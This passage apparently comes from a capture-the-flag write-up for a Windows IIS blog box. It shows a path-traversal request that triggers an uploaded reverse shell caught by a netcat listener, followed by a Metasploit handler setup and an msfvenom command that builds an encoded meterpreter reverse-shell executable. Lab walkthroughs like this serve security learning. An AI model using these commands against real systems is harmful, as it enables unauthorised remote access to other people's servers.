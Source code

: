 Now we don't need to create a post as long as the file is uploaded we can then start a netcat listener on our machine

```shell
nc -lvnp 4445
```

And navigate our browser to;

```shell
http://10.10.194.58/?theme=../../App_Data/files
```

Which our listener picks up

```shell
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.14.49.18] from (UNKNOWN) [10.10.194.58] 49252
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
whoami
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```

The blog engine is running as 'iis apppool\blog', IIS stands for 'Internet Information Services'. It is a web server software developed by Microsoft and mainly used for hosting websites, services, and applications on a Windows operating systems, so this is a Windows box.

---

# Lateral Movement to user

## Local Enumeration

The shell we currently have is a little unstable so we will use Metasploit and MSFVenom to generate a more stable shell.

Firstly we set up the metasploit listner

```shell
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.14.49.18
set LPORT 4446
run
```

Now we generate our payload:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.14.49.18 LPORT=4446 -e x86/shikata_ga_nai -f exe -o reverse.exe
```
